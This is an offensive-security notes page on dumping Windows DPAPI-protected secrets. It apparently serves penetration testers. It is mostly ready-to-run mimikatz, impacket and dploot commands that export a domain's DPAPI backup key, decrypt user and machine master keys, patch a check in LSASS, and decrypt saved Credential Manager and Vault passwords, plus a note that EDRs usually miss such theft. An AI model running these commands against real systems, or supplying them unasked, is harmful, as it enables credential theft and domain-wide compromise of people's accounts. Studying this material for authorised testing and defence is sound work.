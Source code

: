 ```yaml
---
title: DPAPI Dump
---
```


[[notes/windows/credential-access-user]] trough the Data Protection API.

DPAPI encrypts a given secret with the preferred master key of the user or the machine master key in system context.
The user master keys are stored encrypted with a key derived from the users NT hash.
The machine master keys are encrypted with a secret that can be recovered from the `SYSTEM` and `SECURITY` registry hives.

DPAPI-protected secrets can be decrypted without worrying about keys just by passing the blob to `CryptUnprotectData()` in the context of the same user that encrypted the secret.
An exception are secrets with the `CRED_TYPE_DOMAIN_PASSWORD` flag ([source](https://github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials#problem)).
DPAPI refuses do decrypt this secrets trough `CryptUnprotectData()`.
Only LSASS itself can decrypt them.

> **OpSec:** Stealing DPAPI-protected secrets is usually not detected by EDRs.

Storage location of encrypted user master key files:

- `%USERPROFILE%\AppData\Local\Microsoft\Protect\%SID%\%GUID%`
- `%USERPROFILE%\AppData\Roaming\Microsoft\Protect\%SID%\%GUID%`

For automated solutions that dump all kinds of DPAPI-protected secrets like cookies and saved passwords in browsers see [[notes/windows/credential-access-user]].

Other tools:

- [SharpDPAPI](https://github.com/ghostpack/sharpdpapi/), C# port of some Mimikatz DPAPI functionality

Untested tools:

- [DPAPISnoop](https://github.com/leftp/DPAPISnoop), crack master key file to recover user password
- [dpapi-ng](https://github.com/jborean93/dpapi-ng), Python library for DPAPI-NG / CNG DPAPI

References:

- [Detecting DPAPI Backup Key Theft](http://web.archive.org/web/20230731161355/https://www.dsinternals.com/en/dpapi-backup-key-theft-auditing/)
- [DPAPI: Don't Put Administration Passwords In](http://web.archive.org/web/20230719134515/https://www.login-securite.com/2023/07/13/dpapi-dont-put-administration-passwords-in/)
- [Operational guidance for offensive user DPAPI abuse](https://posts.specterops.io/operational-guidance-for-offensive-user-dpapi-abuse-1fb7fac8b107)
- [Operational Guidance for Offensive User DPAPI Abuse](http://web.archive.org/web/20190630035532/http://www.harmj0y.net/blog/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/)
- [ppn.snovvcrash.rocks/pentest/infrastructure/ad/credential-harvesting/dpapi](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/credential-harvesting/dpapi)
- [thehacker.recipes/ad/movement/credentials/dumping/dpapi-protected-secrets](https://www.thehacker.recipes/ad/movement/credentials/dumping/dpapi-protected-secrets)

# Dump domain backup key

As domain admin obtain the domain backup key from a DC.
It can be used to decrypt all user master key files.

=== "[[notes/tools/mimikatz]]"
    ~~~ bash
    .\mimikatz.exe "lsadump::backupkeys /export /system:dc01.corp.local" exit
    ~~~

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-dpapi backupkeys --export -t corp.local/administrator:'passw0rd'@dc01.corp.local
    ~~~

=== "[[notes/tools/dploot]]"
    ~~~ bash
    dploot backupkey -outputfile ./corp.pvk -d corp.local -u administrator -p 'passw0rd' dc01.corp.local
    ~~~

# Decrypt master key files

As local admin dump cached plain master keys from LSASS.

=== "[[notes/tools/mimikatz]]"
    ~~~ bat
    .\mimikatz.exe sekurlsa::dpapi exit
    ~~~

As domain admin decrypt the master key file of every user with the domain backup key.

=== "[[notes/tools/dploot]]"
    ~~~ bash
    dploot masterkeys -export-mk ./ws01/masterkeys -outputfile ./ws01 -pvk ./corp.pvk -u administrator -p 'passw0rd' ws01.corp.local
    ~~~

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-dpapi masterkey -pvk ./corp.pvk -file ./ws01/dpapi/masterkeys/$SID/$GUID
    ~~~

=== "[[notes/tools/mimikatz]]"
    ~~~ bat
    .\mimikatz.exe "dpapi::masterkey /pvk:.\corp.pvk /in:%USERPROFILE%\AppData\Roaming\Microsoft\Protect\%SID%\%GUID%" exit
    ~~~

As local admin decrypt the master key file of every user you know the password or NT hash of.

=== "[[notes/tools/dploot]]"
    ~~~ bash
    dploot masterkeys -export-mk ./ws01/masterkeys -outputfile ./ws01 -passwords ./credentials.txt -u administrator -p 'passw0rd' ws01.corp.local
    dploot masterkeys -export-mk ./ws01/masterkeys -outputfile ./ws01 -nthashes ./nthashes.txt -u administrator -p 'passw0rd' ws01.corp.local
    ~~~

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-dpapi masterkey -file ./ws01/dpapi/masterkeys/$SID/$GUID -sid $SID -password 'passw0rd'
    ~~~

=== "[[notes/tools/mimikatz]]"
    ~~~ bat
    .\mimikatz.exe "dpapi::masterkey /protected /in:%USERPROFILE%\AppData\Roaming\Microsoft\Protect\%SID%\%GUID% /sid:%SID% /password:passw0rd" exit
    ~~~

Decrypt a domain users master key file when you have the users password, NT hash or code execution in the users context by retrieving the users backup key from a DC over MSRPC.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-dpapi masterkey -f ./ws01/dpapi/masterkeys/$SID/$GUID -t administrator:'passw0rd'@ws01.corp.local
    ~~~

=== "[[notes/tools/mimikatz]]"
    ~~~ bat
    .\mimikatz.exe "dpapi::masterkey /rpc /in:%USERPROFILE%\AppData\Roaming\Microsoft\Protect\%SID%\%GUID%" exit
    ~~~

As local admin download all machine master key files.

=== "[[notes/tools/dploot]]"
    ~~~ bash
    dploot machinemasterkeys -export-mk ./ws01/masterkeys -outputfile ./ws01 -u administrator -p 'passw0rd' ws01.corp.local
    ~~~

Decrypt a machine master key file with key material extracted from the `SYSTEM` and `SECURITY` registry hives.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-dpapi masterkey -system ./ws01-system.save -security ./ws01-security.save -file ./ws01/dpapi/masterkeys/$GUID
    ~~~

# Decrypt protected secrets

## Credential Manager

Find credential files.

~~~ bat
cmdkey.exe /list
dir %USERPROFILE%\AppData\Local\Microsoft\Credentials
dir %USERPROFILE%\AppData\Roaming\Microsoft\Credentials
dir %SYSTEMROOT%\System32\config\systemprofile\AppData\Local\Microsoft\Credentials
dir %SYSTEMROOT%\System32\config\systemprofile\AppData\Roaming\Microsoft\Credentials
~~~

As local admin search for user credential files and decrypt them with the domain backup key or plain master keys.

=== "[[notes/tools/dploot]]"
    ~~~ bash
    dploot credentials -export-cm ./ws01/credman -pvk ./corp.pvk -u administrator -p 'passw0rd' ws01.corp.local
    dploot credentials -export-cm ./ws01/credman -mkfile ./ws01.mkf -u administrator -p 'passw0rd' ws01.corp.local
    ~~~

As local admin search for machine credential files, download the machine master key files, dump the registry hives, decrypt the machine master keys and finally decrypt the machine credentials.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-systemdpapidump -creds administrator:'passw0rd'@ws01.corp.local
    ~~~

As local admin search for machine credential files and decrypt them with plain master keys.

=== "[[notes/tools/dploot]]"
    ~~~ bash
    dploot machinecredentials -export-cm ./ws01/credman -mkfile ./ws01.mkf -u administrator -p 'passw0rd' ws01.corp.local
    ~~~

Decrypt a credential file with a plain master key.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-dpapi credential -file ./example.crd -key $masterkey
    ~~~

=== "[[notes/tools/mimikatz]]"
    ~~~ bat
    .\mimikatz.exe "dpapi::cred /in:%USERPROFILE%\AppData\Roaming\Microsoft\Credentials\... /masterkey:%KEY%" exit
    ~~~

References:

- [tools.thehacker.recipes/mimikatz/modules/dpapi/cred](https://tools.thehacker.recipes/mimikatz/modules/dpapi/cred)
- [github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials](https://github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials)

## Vault

The Vault is the backend of the *Remember password* functionality for SMB and RDP logins.
There are two primary vaults: *Web Credentials* for storing browser credentials and *Windows Credentials* for SMB and RDP.

Find vault files.

~~~ bat
vaultcmd.exe /list
vaultcmd.exe /listcreds:"Web Credentials"
vaultcmd.exe /listcreds:"Windows Credentials"
dir %USERPROFILE%\AppData\Local\Microsoft\Vault
dir %USERPROFILE%\AppData\Roaming\Microsoft\Vault
dir %PROGRAMDATA%\Microsoft\Vault
dir %SYSTEMROOT%\system32\config\systemprofile\AppData\Local\Microsoft\Vault
dir %SYSTEMROOT%\system32\config\systemprofile\AppData\Roaming\Microsoft\Vault
rundll32.exe keymgr.dll,KRShowKeyMgr
~~~

Patch the check for the `CRED_TYPE_DOMAIN_PASSWORD` flag in LSASS and decrypt all secrets.

=== "[[notes/tools/mimikatz]]"
    ~~~ bat
    .\mimikatz.exe "vault::cred /patch" exit
    ~~~

As local admin search for user vault files and decrypt them with the domain backup key or plain master keys.

=== "[[notes/tools/dploot]]"
    ~~~ bash
    dploot vaults -export-vpol ./ws01/vault -pvk ./corp.pvk -u administrator -p 'passw0rd' ws01.corp.local
    dploot vaults -export-vpol ./ws01/vault -mkfile ./ws01.mkf -u administrator -p 'passw0rd' ws01.corp.local
    ~~~

As local admin search for machine vault files and decrypt them with plain master keys.

=== "[[notes/tools/dploot]]"
    ~~~ bash
    dploot machinevaults -export-vpol ./ws01/vault -mkfile ./ws01.mkf -u administrator -p 'passw0rd' ws01.corp.local
    ~~~

Decrypt a vault file with a plain master key.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-dpapi vault -vcrd ./example.vcrd -vpol ./example.vpol -key $masterkey
    ~~~

References:

- [tools.thehacker.recipes/mimikatz/modules/dpapi/vault](https://tools.thehacker.recipes/mimikatz/modules/dpapi/vault)
